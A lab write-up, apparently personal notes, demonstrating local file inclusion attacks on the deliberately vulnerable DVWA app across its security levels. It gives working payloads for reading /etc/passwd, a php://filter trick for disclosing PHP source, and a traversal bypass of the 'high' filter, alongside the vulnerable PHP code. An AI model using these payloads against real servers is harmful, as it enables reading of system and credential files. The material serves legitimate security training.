



---
tags:
  - hack
---
# Attacking LFI (DVWA)

The [Damn Vulnerable Web App](https://github.com/digininja/DVWA) is a purposefully vulnerable application for learning how to exploit various vulnerabilities.

## File Inclusion

Demonstrating [file inclusion vulnerabilities](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) using [Damn Vulnerable Web App](https://github.com/digininja/DVWA).

### Security Level: Low

Look at `?page=include.php` in the URL:



The `page` parameters can be modified to return any file on the local filesystem that user `www-data` is able to read. For example, `/etc/passwd`:



I can also access the PHP source code for `index.php` without needing to know its full path by using a PHP filter, `http://127.0.0.1:4280/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php`:



That encoded strings can be decoded for the full contents of `index.php`, which was otherwise inaccessible because it would have been rendered by the server:

```console
$ echo PD9waHANCg0KZGVmaW5lKCAnRFZXQV9XRUJfUEFHRV9UT19ST09UJywgJy4uLy4uLycgKTsNCnJlcXVpcmVfb25jZSBEVldBX1dFQl9QQUdFX1RPX1JPT1QgLiAnZHZ3YS9pbmNsdWRlcy9kdndhUGFnZS5pbmMucGhwJzsNCg0KZHZ3YVBhZ2VTdGFydHVwKCBhcnJheSggJ2F1dGhlbnRpY2F0ZWQnICkgKTsNCg0KJHBhZ2UgPSBkdndhUGFnZU5ld0dyYWIoKTsNCiRwYWdlWyAndGl0bGUnIF0gICA9ICdWdWxuZXJhYmlsaXR5OiBGaWxlIEluY2x1c2lvbicgLiAkcGFnZVsgJ3RpdGxlX3NlcGFyYXRvcicgXS4kcGFnZVsgJ3RpdGxlJyBdOw0KJHBhZ2VbICdwYWdlX2lkJyBdID0gJ2ZpJzsNCiRwYWdlWyAnaGVscF9idXR0b24nIF0gICA9ICdmaSc7DQokcGFnZVsgJ3NvdXJjZV9idXR0b24nIF0gPSAnZmknOw0KDQpkdndhRGF0YWJhc2VDb25uZWN0KCk7DQoNCiR2dWxuZXJhYmlsaXR5RmlsZSA9ICcnOw0Kc3dpdGNoKCBkdndhU2VjdXJpdHlMZXZlbEdldCgpICkgew0KCWNhc2UgJ2xvdyc6DQoJCSR2dWxuZXJhYmlsaXR5RmlsZSA9ICdsb3cucGhwJzsNCgkJYnJlYWs7DQoJY2FzZSAnbWVkaXVtJzoNCgkJJHZ1bG5lcmFiaWxpdHlGaWxlID0gJ21lZGl1bS5waHAnOw0KCQlicmVhazsNCgljYXNlICdoaWdoJzoNCgkJJHZ1bG5lcmFiaWxpdHlGaWxlID0gJ2hpZ2gucGhwJzsNCgkJYnJlYWs7DQoJZGVmYXVsdDoNCgkJJHZ1bG5lcmFiaWxpdHlGaWxlID0gJ2ltcG9zc2libGUucGhwJzsNCgkJYnJlYWs7DQp9DQoNCnJlcXVpcmVfb25jZSBEVldBX1dFQl9QQUdFX1RPX1JPT1QgLiAidnVsbmVyYWJpbGl0aWVzL2ZpL3NvdXJjZS97JHZ1bG5lcmFiaWxpdHlGaWxlfSI7DQoNCi8vIGlmKCBjb3VudCggJF9HRVQgKSApDQppZiggaXNzZXQoICRmaWxlICkgKQ0KCWluY2x1ZGUoICRmaWxlICk7DQplbHNlIHsNCgloZWFkZXIoICdMb2NhdGlvbjo/cGFnZT1pbmNsdWRlLnBocCcgKTsNCglleGl0Ow0KfQ0KDQpkdndhSHRtbEVjaG8oICRwYWdlICk7DQoNCj8+DQo= | base64 -d
<?php
define( 'DVWA_WEB_PAGE_TO_ROOT', '../../' );
require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';
dvwaPageStartup( array( 'authenticated' ) );
$page = dvwaPageNewGrab();
$page[ 'title' ]   = 'Vulnerability: File Inclusion' . $page[ 'title_separator' ].$page[ 'title' ];
$page[ 'page_id' ] = 'fi';
$page[ 'help_button' ]   = 'fi';
$page[ 'source_button' ] = 'fi';
dvwaDatabaseConnect();
$vulnerabilityFile = '';
switch( dvwaSecurityLevelGet() ) {
        case 'low':
                $vulnerabilityFile = 'low.php';
                break;
        case 'medium':
                $vulnerabilityFile = 'medium.php';
                break;
        case 'high':
                $vulnerabilityFile = 'high.php';
                break;
        default:
                $vulnerabilityFile = 'impossible.php';
                break;
}
require_once DVWA_WEB_PAGE_TO_ROOT . "vulnerabilities/fi/source/{$vulnerabilityFile}";
// if( count( $_GET ) )
if( isset( $file ) )
        include( $file );
else {
        header( 'Location:?page=include.php' );
        exit;
}
dvwaHtmlEcho( $page );
?>
```

### Security Level: Medium

This level does some rudimentary filtering to prevent using `../`:

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
?>
```

But just how we used an absolute path in the first example, the same approach works for this level: `?page=/etc/passwd`

### Security Level: High

This level has more aggressive filtering for the parameter keyword which ensures the keyword matches `file` at the beginning, because the intended files for inclusion are `page1.php`, `page2.php`, etc.:

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
?>
```

But for some reason PHP will allow a nonexistent directory name in a relative path, so this works: `http://127.0.0.1:4280/vulnerabilities/fi/?page=file/../../../../../../etc/passwd`

### Security Level: Impossible

This version implements a whitelist:

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
// Only allow include.php or file{1..3}.php
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];
if( !in_array($file, $configFileNames) ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
?>
```

`¯\_(ツ)_/¯`
